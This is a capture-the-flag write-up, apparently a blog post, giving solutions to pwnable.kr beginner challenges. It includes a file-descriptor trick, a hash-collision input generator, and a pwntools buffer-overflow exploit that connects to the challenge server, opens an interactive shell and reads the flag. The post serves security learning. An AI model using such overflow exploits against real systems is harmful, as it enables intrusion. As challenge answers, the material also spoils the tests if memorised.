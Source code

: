# [pwnable.kr] Toddlers Bottle


<!--more-->

## fd

```bash
echo LETMEWIN | ./fd 4660
```

## collision

```python
piece = hex((0x21DD09EC + pow(2, 32)) // 5)[2:]
rev_piece = ''
for i in range(len(piece) - 2, -1, -2):
    rev_piece += piece[i:i+2]
print(bytes.fromhex(rev_piece))
```

```bash
./col "`python -c "print('\xfc\x01\xf99' * 5)"`"
```

## bof

```python
from pwn import *

input = b'A' * 0x2C + b'B' * 0x8 + p32(0xCAFEBABE)
shell = remote('pwnable.kr', 9000)
shell.send(input)
shell.interactive()
```

```bash
cat flag
```

## flag

[This posts is currently being updated...]

